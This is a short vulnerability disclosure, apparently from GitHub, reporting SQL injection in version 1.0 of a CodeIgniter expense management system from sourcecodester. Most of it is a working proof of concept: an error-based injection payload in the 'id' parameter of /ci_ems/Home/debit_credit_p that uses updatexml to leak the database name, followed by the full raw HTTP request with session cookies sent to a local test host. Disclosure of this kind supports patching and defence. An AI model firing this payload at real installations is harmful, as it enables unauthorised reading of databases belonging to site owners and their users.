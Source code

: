 # php-codeigniter-expense-management-system v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php-codeigniter-expense-management-system-source-code

Date: 2022-07-24

Vulnerability File: /ci_ems/Home/debit_credit_p

Vulnerability location: /ci_ems/Home/debit_credit_p?id=18, id

[+] Payload: id=18'+and++updatexml(1,concat(0x7e,(select+database()),0x7e),0)--+

Tested on Windows 10, XAMPP

```
GET /ci_ems/Home/debit_credit_p?id=18'+and++updatexml(1,concat(0x7e,(select+database()),0x7e),0)--+ HTTP/1.1
Host: 172.20.10.13
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://172.20.10.13/ci_ems/Home/view_clients
Cookie: PHPSESSID=hs2g51l1gmlikit3icuq6kf4an; ci_session=a7e1tk4u5ih48n1d88etb314b7gv37qn
Upgrade-Insecure-Requests: 1


```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)

